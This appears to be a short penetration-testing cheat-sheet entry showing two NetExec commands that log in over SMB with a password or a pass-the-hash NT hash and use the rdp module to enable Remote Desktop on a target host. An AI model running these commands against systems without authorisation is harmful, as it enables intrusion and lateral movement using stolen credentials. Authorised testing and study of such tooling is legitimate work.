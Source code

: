 # Unix Shell

## 01 - NetExec

```
$ netexec smb <target_IP> [-d <domain_name>] -u "<username>" -p "<password>" -M rdp -o ACTION=enable

$ netexec smb <target_IP> [-d <domain_name>] -u "<username>" -H <nt_hash> -M rdp -o ACTION=enable
```